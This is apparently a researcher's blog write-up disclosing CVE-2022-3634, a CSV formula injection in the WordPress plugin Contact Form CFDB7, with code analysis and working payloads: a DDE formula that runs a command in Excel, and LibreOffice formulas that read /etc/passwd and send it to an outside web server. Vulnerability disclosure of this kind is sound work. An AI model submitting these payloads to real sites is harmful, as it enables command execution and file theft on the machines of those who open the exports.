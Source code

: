 ```yaml
---
layout: post
categories: vulns
title: "CVE-2022-3634 - Wordpress Plugins - Contact Form CFBD7 - CSV Injection"
permalink: "/:categories/:title/"
---
```


# Intro

As defined by OWASP : CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

When a spreadsheet program such as Microsoft Excel or LibreOffice Calc is used to open a CSV, any cells starting with = will be interpreted by the software as a formula. Maliciously crafted formulas can be used for three key attacks:

* Hijacking the user’s computer by exploiting vulnerabilities in the spreadsheet software, such as CVE-2014-3524.
* Hijacking the user’s computer by exploiting the user’s tendency to ignore security warnings in spreadsheets that they downloaded from their own website.
* Exfiltrating contents from the spreadsheet, or other open spreadsheets.


# Summary

A formula injection (CSV Injection) in the Wordpress plugin **Contact Form CFDB7 version 1.2.6.4** allows an **unauthenticated attacker** to inject arbitary excel formulas via manipulation of an unsanitized parameter.


# Code analysis

The **export-csv.php** defines a method named **escape_data()** which is used for the CSV export.

Certain efforts have been made by the developers in order to prevent the injection by escaping a few characters. However, the semicolon character is allowed, leading to the formula injection.

<img src="../../assets/images/posts/vulns/contact-form-cfdb7/csv_injection_poc_code.png">

# Exploit

## Simple formula injection

The following shows the exploitation in form of a simple formula injection in the **Name** input in the contact form, which will then be passed to the plugin’s functions and inserted into the final CSV file.

An unauthenticated attacker could submit the following payload on any Wordpress website exposing a contact form.

```
# Payload 

;=1+2
```

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc.png">

The wordpress user exports the form’s data and downloads the CSV file.

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_1.png">

The semicolon has been interpreted as a delimiter, the formula has been read and the result of the arithmetic operation **1+2** is printed in the cell.

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_2.png">


## Command Execution

Old versions of Microsoft Excel allow usage of [DDE](https://learn.microsoft.com/en-gb/windows/win32/dataxchg/about-dynamic-data-exchange) (Dynamic Data Exchange) in the default settings. Attackers can abuse this feature to execute commands on the target's system, once the CSV file opened.

This exploit needs the *Enable Dynamic DataExchange Server Launch* option to be enabled on **recent versions of Microsoft Excel**.

```
#Payload 

;=cmd|' /C calc'!xxx

```

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_calc_1.png">

In recent versions of Microsoft Excel, a warning message is shown before using the DDE protocol. 

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_calc_2.png">

Finally, the attacker gets a command execution on the target's system.

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_calc_3.png">


## File read and data exfiltration

Attackers can achieve a local file read and data exfiltration when the malicious CSV file is opened with LibreOffice Calc.

```
# Read line in file

;='file:///etc/passwd'#$passwd.A1

# Exfiltrate line

WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)))

```

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_lfi.png">

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_lfi_1.png">

<img src="../../assets/images/posts//vulns/contact-form-cfdb7/csv_injection_poc_lfi_2.png">


# References

* Plugin URL : [https://fr.wordpress.org/plugins/contact-form-cfdb7/](https://fr.wordpress.org/plugins/contact-form-cfdb7/)
* WPScan : [https://wpscan.com/vulnerability/b5eeefb0-fb5e-4ca6-a6f0-67f4be4a2b10](https://wpscan.com/vulnerability/b5eeefb0-fb5e-4ca6-a6f0-67f4be4a2b10)
* Mitre - CVE-2022-3634 : [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-3634](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-3634)
* OWASP - CSV Injection : [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* Hacktricks - Formula Injection : [https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#formula-injection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#formula-injection)
